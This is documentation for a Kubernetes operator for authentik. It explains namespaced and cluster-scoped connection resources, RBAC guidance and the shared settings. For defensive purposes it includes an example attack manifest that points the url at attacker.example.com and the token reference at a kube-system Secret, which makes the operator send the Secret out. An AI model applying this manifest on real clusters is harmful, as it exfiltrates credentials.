

# Connections

A connection answers two questions for every other resource: **which** authentik
instance, and **with what token**. Every provider, application and outpost
carries a `spec.connectionRef` selecting one, and nothing reconciles without it.

There are two kinds, and the choice between them is the most consequential
security decision in this API.

## The two kinds

| | `AuthentikConnection` | `ClusterAuthentikConnection` |
| --- | --- | --- |
| Scope | Namespaced | Cluster |
| Short name | `akconn` | `clakconn` |
| Token `Secret` read from | Its own namespace, always | The namespace named in its spec |
| `tokenSecretRef.namespace` | Does not exist | **Required** |
| Usable from | Its own namespace | Any namespace, or those in `allowedNamespaces` |
| Creating one requires | Namespace-level access | Effectively cluster-admin |

### Choosing



Use `AuthentikConnection` unless you have a specific reason not to. It is the
default value of `connectionRef.kind` for exactly that reason.

## `AuthentikConnection`

```yaml
apiVersion: authentik.k8s.rka.sh/v1alpha1
kind: AuthentikConnection
metadata:
  name: default
  namespace: my-apps
spec:
  url: https://authentik.example.com
  tokenSecretRef:
    name: authentik-api-token
    key: token
  caBundleSecretRef:              # optional
    name: internal-ca
    key: ca.crt
  insecureSkipTLSVerify: false
  probeInterval: 5m
```

`tokenSecretRef` has **no** `namespace` field. This is deliberate and permanent:
a cross-namespace reference here would let anyone who can create a resource in
one namespace borrow credentials from another. If a connection genuinely needs
to be shared, that is what the cluster-scoped kind is for.

The security property that follows is worth stating plainly: **creating an
`AuthentikConnection` manufactures no privilege.** If you can create one in a
namespace, you could already read that namespace's `Secret`s. Nothing is
escalated.

## `ClusterAuthentikConnection`

```yaml
apiVersion: authentik.k8s.rka.sh/v1alpha1
kind: ClusterAuthentikConnection
metadata:
  name: shared
spec:
  url: https://authentik.example.com
  tokenSecretRef:
    namespace: authentik-operator-system   # required
    name: authentik-api-token
    key: token
  allowedNamespaces:                       # optional; empty means all
    - my-apps
    - platform
  probeInterval: 5m
```

Being cluster-scoped, it has no namespace of its own to default to, so it must
name one — and that field accepts any namespace in the cluster.

### The blast radius

!!! danger "Permission to create one is a cluster-admin-level privilege"

    The operator must hold cluster-wide `get secrets` to honour
    `tokenSecretRef.namespace`. So anyone who can create or update a
    `ClusterAuthentikConnection` can make the operator read **any `Secret` in
    the cluster**.

    Combined with a `spec.url` they control — a host they own, or any endpoint
    the operator Pod can reach — they can have the operator send that `Secret`'s
    contents to them as a bearer token. `kube-system` service account tokens,
    database passwords, other teams' credentials: all reachable.

    Treat `create` and `update` on this kind as equivalent to cluster-wide
    `get secrets`.

Concretely, this is the attack:

```yaml
# An attacker who can create ClusterAuthentikConnection.
apiVersion: authentik.k8s.rka.sh/v1alpha1
kind: ClusterAuthentikConnection
metadata:
  name: totally-legitimate
spec:
  url: https://attacker.example.com   # they own this
  tokenSecretRef:
    namespace: kube-system            # not theirs
    name: some-controller-token
    key: token
```

The operator reads the `Secret` and sends it as an `Authorization` header to a
host of the attacker's choosing. Nothing here is a bug; it is the inherent cost
of a cluster-scoped credential reference, and it is why the RBAC guidance is as
blunt as it is.

### What the design does guarantee

The mitigation is narrow but important, and it closes the bug that actually
tends to appear in operators:

!!! success "The token is resolved only from `spec.tokenSecretRef.namespace`"

    It is **never** resolved relative to the namespace of the resource that
    referenced the connection, nor relative to the operator's own namespace.
    There is no fallback and no default.

    So a tenant in namespace `A` cannot reference a cluster connection and have
    the operator quietly pick up a `Secret` from `A` — or from anywhere else of
    their choosing. They get exactly the `Secret` the cluster administrator who
    wrote the connection selected.

This is the classic confused-deputy bug in Kubernetes operators, and
[ADR 0001](../decisions/0001-connection-scope.md) records it as a binding
constraint on the implementation rather than a convention.

A tenant referencing a cluster connection obtains the **use** of a token, never
its bytes. The operator does not copy it into their namespace, echo it in
`status`, or log it.

### `allowedNamespaces`

Defence in depth on top of that rule. An empty or absent list means every
namespace may reference the connection.

```yaml
spec:
  allowedNamespaces:
    - my-apps
    - platform
```

A resource in a namespace outside the list is rejected with `Ready=False` and
reason `ConnectionNotReady`, and touches nothing in authentik.

!!! tip "Set it even when it feels redundant"

    Without it, any user who can create a resource in *any* namespace can drive
    an authentik instance they were never granted access to. The list costs one
    edit when you add a namespace, and removes an entire class of accidental
    access.

    It is enforced on every reconcile rather than only at admission, since a
    namespace can be created after the connection was written.

## Shared settings

Both kinds embed the same transport settings.

`url`

:   Base URL of the authentik instance. Validated against `^https?://`. Do
    **not** include the `/api/v3` suffix — the operator appends it. A trailing
    path will produce 404s from every call.

`insecureSkipTLSVerify`

:   Default `false`. Disables verification of authentik's certificate. Intended
    for local testing against a self-signed instance. In production it means the
    API token can be captured by anything able to intercept the connection —
    prefer `caBundleSecretRef`.

`caBundleSecretRef`

:   Optional PEM CA bundle used to verify the server. Resolved from the
    connection's own namespace for the namespaced kind, and from the explicitly
    named namespace for the cluster-scoped kind — same rule as the token.

`probeInterval`

:   Default `5m`. How often reachability and version are re-checked. Must match
    `^([0-9]+(s|m|h))+$`, so `30s`, `5m`, `1h30m` are all valid. Shorter
    intervals notice an outage sooner at the cost of more API calls.

## Status

```sh
$ kubectl -n my-apps get akconn -o wide
NAME      URL                             VERSION    READY   AGE
default   https://authentik.example.com   2026.8.2   True    4h
```

| Field | Meaning |
| --- | --- |
| `status.conditions` | `Ready` and `Synced`. See [Conditions](../reference/conditions.md). |
| `status.observedGeneration` | The `metadata.generation` this status reflects. |
| `status.authentikVersion` | Version reported by the instance, e.g. `2026.8.2`. |
| `status.versionSupported` | Whether that version is in the tested range. |
| `status.lastProbeTime` | When the instance was last contacted. |

### The version gate

When `status.versionSupported` is `false`, dependent resources **refuse to
reconcile** and report `UnsupportedVersion`.

That is deliberate. The alternative is failing obscurely deep inside an API call
against a schema that changed — a 400 with an authentik-internal message, three
layers from the manifest that caused it. Failing early and naming the version
is far cheaper to diagnose. See
[Supported versions](../operations/supported-versions.md).

## Referencing a connection

```yaml
spec:
  connectionRef:
    kind: AuthentikConnection      # default; or ClusterAuthentikConnection
    name: default
```

`kind` is optional and defaults to `AuthentikConnection`. `name` is required.

There is no `namespace` field: a namespaced connection is always resolved in the
referring resource's own namespace, and a cluster-scoped one is cluster-scoped
so it needs none.

## RBAC guidance

!!! danger "Do not grant `ClusterAuthentikConnection` to tenants"

    Grant `create`, `update` and `patch` on this kind to cluster administrators
    only. It belongs in no role bound to application teams, tenants, or CI
    service accounts.

For tenants, grant the namespaced kind within their own namespace:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: authentik-tenant
  namespace: my-apps
rules:
  - apiGroups: ["authentik.k8s.rka.sh"]
    resources:
      - authentikconnections
      - oauth2providers
      - samlproviders
      - proxyproviders
      - applications
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
```

Note what is absent: `clusterauthentikconnections`. Adding it to a namespaced
`Role` would do nothing (the kind is cluster-scoped), and adding it to a
`ClusterRole` bound to this team would hand them the whole cluster's `Secret`s.

Further hardening:

- **Audit both kinds.** A new `ClusterAuthentikConnection` in a cluster that did
  not expect one is a strong signal.
- **Constrain the fields.** A ValidatingAdmissionPolicy, Kyverno or Gatekeeper
  rule restricting `spec.url` to an allowlist of hostnames, and
  `spec.tokenSecretRef.namespace` to a known set, turns "any secret, anywhere it
  likes" into "a known secret, to a known endpoint".
- **Default-deny egress.** A `NetworkPolicy` allowing the operator to reach only
  the API server and your authentik removes the exfiltration path above. It does
  not remove the underlying privilege — a cluster-internal endpoint is still
  reachable — but it is the cheapest meaningful mitigation available.
- **Strip the RBAC you do not need.** If you never use the cluster-scoped kind,
  do not install it, and remove the cluster-wide `get secrets` permission that
  exists only to serve it.

See [Security](../operations/security.md) for the full model.

## Common problems

| Symptom | Cause | Fix |
| --- | --- | --- |
| `ReferenceNotFound` on the connection | `Secret` or key missing in the namespace the operator looked in | For the namespaced kind, that is the connection's own namespace; for the cluster kind, `tokenSecretRef.namespace`. |
| `ConnectionNotReady` on a provider | The connection is not `Ready`, or the namespace is not in `allowedNamespaces` | Fix the connection first. `describe` it. |
| `APIError` mentioning 403 | Token is wrong, expired, has the wrong intent, or contains a trailing newline | Recreate with `printf %s` and `--from-file`. |
| `APIError` mentioning certificates | Private CA | Set `caBundleSecretRef`. |
| `UnsupportedVersion` | authentik outside the tested range | [Supported versions](../operations/supported-versions.md). |
| `status` completely empty | Namespace not watched, or no controller running | Check `watchNamespaces`. |

More at [Troubleshooting](../operations/troubleshooting.md).

## Several operators, one authentik

More than one operator can point at the same authentik — one per Kubernetes
cluster, or one reaching it directly while another goes through a proxy.

authentik has **no ownership marker** on providers or applications; objects are
keyed by name. So two operators both managing a provider called `grafana` are
managing *the same object*, and the second to arrive either refuses it as an
adoption conflict or takes it over from the first.

`spec.cluster` keeps them apart:

```yaml
spec:
  url: https://authentik.example.com
  cluster: prod-eu
```

The operator scopes the names of objects it manages with that identity, so a
provider declared as `grafana` is created as `grafana-prod-eu`. Lookups use the
same scoped name, which means an operator never finds, adopts or deletes another
cluster's object.

| Object | `spec.cluster` | Declared | In authentik |
| --- | --- | --- | --- |
| Provider | `prod-eu` | `grafana` | `grafana-prod-eu` |
| Provider | `prod-us` | `grafana` | `grafana-prod-us` |
| Provider | *(unset)* | `grafana` | `grafana` |
| **Application** | *any* | `grafana` | `grafana` — never scoped |

!!! danger "Applications are deliberately not scoped"

    An application's **slug appears in the URL** users are sent to when logging
    in (`/application/o/<slug>/`), and its **name appears in every user's
    application list**. Scoping either would publish your cluster naming to
    anyone who reaches that page — including people who are not signed in.

    So `cluster` scopes provider, outpost and service connection names, which
    are only ever visible in authentik's admin interface. It does **not** touch
    applications.

    Two clusters cannot both own the slug `grafana` in any case: that is one URL
    on one authentik, so it is a real conflict rather than something a suffix
    can resolve. The operator refuses to take over an application it did not
    create and says so; pick distinct slugs, which is a decision about what your
    users see.

!!! warning "Decide it up front"

    `cluster` is part of an object's identity in authentik. Changing it later
    **orphans everything created under the old value** — the operator does not
    rename those objects, it creates new ones under the new scope and leaves the
    old ones behind.

Leave it unset when only one operator talks to the instance; names then stay
exactly as declared. Runnable manifests are in
[`examples/multi-cluster`](https://github.com/RashKash103/authentik-operator/tree/main/examples/multi-cluster).

## Cross-namespace references

By default a reference resolves in the referring resource's own namespace.
Starting the operator with `--allow-cross-namespace-references` (chart value
`allowCrossNamespaceReferences`) lets a reference name another namespace, so one
team can publish shared `Flow` and `PropertyMapping` resources:

```yaml
authorizationFlow:
  name: provider-authorization
  namespace: platform
```

Two things to know:

- **It does not apply to `connectionRef`.** Credentials are not configuration. A
  cross-namespace `connectionRef` would let a consumer take another namespace's
  credentials unilaterally; a
  [`ClusterAuthentikConnection`](#clusterauthentikconnection) instead lets the
  connection's *owner* grant access through `allowedNamespaces`. Those are
  opposite directions of consent.
- **A reference must point at the same authentik instance.** A `Flow` resolves a
  slug to a UUID against one specific authentik, and that UUID means nothing on
  another. The operator records which instance each object resolved against and
  refuses a reference that disagrees, rather than sending a UUID the target
  instance has never seen.

## See also

- [ADR 0001 — Connection scope](../decisions/0001-connection-scope.md)
- [Creating an API token](../getting-started/api-token.md)
- [Security](../operations/security.md)
